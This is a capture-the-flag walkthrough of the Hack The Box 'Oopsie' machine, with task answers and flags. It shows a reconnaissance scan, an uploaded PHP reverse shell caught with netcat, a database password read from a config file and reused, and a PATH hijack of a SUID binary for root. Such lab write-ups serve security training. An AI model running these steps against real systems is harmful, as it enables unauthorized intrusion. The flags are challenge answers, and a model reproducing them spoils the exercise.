 # Oopsie
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Oopsie
* Topic: [[PHP]] [[SUID]]
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. With what kind of tool can intercept web traffic? 
 - **proxy**
2. What is the path to the directory on the webserver that returns a login page? 
- **/cdn-cgi/login**
3. What can be modified in Firefox to get access to the upload page? 
- **cookie**
4. What is the access ID of the admin user?
- **34322**
5. On uploading a file, what directory does that file appear in on the server? 
- **/uploads**
6. What is the file that contains the password that is shared with the robert user? 
- **db.php**
7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 
- **find**
8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? 
- **root**
9. What SUID stands for? 
- **set owner user id**
10. What is the name of the executable being called in an insecure manner? 
 - **cat**
 11. Submit user flag 
  - **f2c74ee8db7983851ab2a96a44eb7981**

---
## Flag:
Nmap:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -n -sC -sV 10.129.12.64
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 14:54 EDT
Nmap scan report for 10.129.12.64
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

The web page:

![](./attachments/Pasted%20image%2020220413210129.png)

Burp:

![](./attachments/Pasted%20image%2020220413212527.png)

The Login page:

![](./attachments/Pasted%20image%2020220413212739.png)

Login as guest:

![](./attachments/Pasted%20image%2020220413212943.png)

Cookies:

![](./attachments/Pasted%20image%2020220413213635.png)

Access:

![](./attachments/Pasted%20image%2020220413213808.png)

File Uploaded:

![](./attachments/Pasted%20image%2020220413215722.png)

Find upload dir:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir --url 10.129.12.64 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.12.64
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2022/04/13 15:05:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.129.12.64/images/]
/index.php            (Status: 200) [Size: 10932]                                
/themes               (Status: 301) [Size: 313] [--> http://10.129.12.64/themes/]
/uploads              (Status: 301) [Size: 314] [--> http://10.129.12.64/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.12.64/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.129.12.64/js/]     
/fonts                (Status: 301) [Size: 312] [--> http://10.129.12.64/fonts/]  
                                                                                  
===============================================================
2022/04/13 15:36:01 Finished
===============================================================
```

Reverse shell call.

`http://10.129.12.64/uploads/php-reverse-shell.php`

![](./attachments/Pasted%20image%2020220413220747.png)

Netcat:

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.12.64] 52642
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:07:00 up  1:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie:/$ 
```

We got the shell!

Looking around for a bit, we find `db.php`. 

```console 
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php           
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ 
```

Great, now we are logged in as robert!

```console 
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php           
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ cd ~
robert@oopsie:~$ ls
user.txt
robert@oopsie:~$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981

robert@oopsie:/$ cd tmp/
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ ls
cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 3
3
---------------
# whoami
root
```

And now as root!

```
# pwd
/tmp
# rm cat
# cd /root
# ls
reports  root.txt
# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

The final flag!

**Flag:** `af13b0bee69f8a877c3faf667f7beacf`

---
**Tags:** [[HackTheBox]]